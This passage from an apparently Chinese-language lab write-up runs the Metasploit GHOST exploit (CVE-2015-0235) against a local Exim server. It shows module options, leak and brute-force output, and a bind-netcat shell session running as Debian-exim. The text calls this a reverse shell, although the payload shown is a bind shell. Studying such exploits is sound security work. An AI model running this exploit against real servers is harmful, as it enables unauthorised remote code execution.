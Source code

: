 ```
   RPORT                25               yes       The target port (TCP)
   SENDER_HOST_ADDRESS  127.0.0.1        yes       The IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim)


Payload options (cmd/unix/bind_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  127.0.0.1        no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/smtp/exim_gethostbyname_bof) > exploit 

[*] Started bind handler
[*] 127.0.0.1:25 - Checking if target is vulnerable...
[+] 127.0.0.1:25 - Target is vulnerable.
[*] 127.0.0.1:25 - Trying information leak...
[+] 127.0.0.1:25 - Successfully leaked_arch: x64
[+] 127.0.0.1:25 - Successfully leaked_addr: 7fea43824720
[*] 127.0.0.1:25 - Trying code execution...
[+] 127.0.0.1:25 - Brute-forced min_heap_addr: 7fea438116cb
[+] 127.0.0.1:25 - Brute-force SUCCESS
[+] 127.0.0.1:25 - Please wait for reply...
[*] Command shell session 1 opened (127.0.0.1:34327 -> 127.0.0.1:4444) at 2018-01-26 17:29:07 +0800

whoami
Debian-exim
id
uid=115(Debian-exim) gid=125(Debian-exim) groups=125(Debian-exim)
```
Bingo!!!成功获得了一个反弹 shell。

对于该脚本到底是怎么做到的，本人水平有限，还有待分析。。。


## 参考资料
- [CVE-2015-0235 Detail](https://nvd.nist.gov/vuln/detail/CVE-2015-0235)
- [Qualys Security Advisory CVE-2015-0235](http://www.openwall.com/lists/oss-security/2015/01/27/9)
- [Exim - 'GHOST' glibc gethostbyname Buffer Overflow (Metasploit)](https://www.exploit-db.com/exploits/36421/)
- [Exim ESMTP 4.80 - glibc gethostbyname Denial of Service](https://www.exploit-db.com/exploits/35951/)
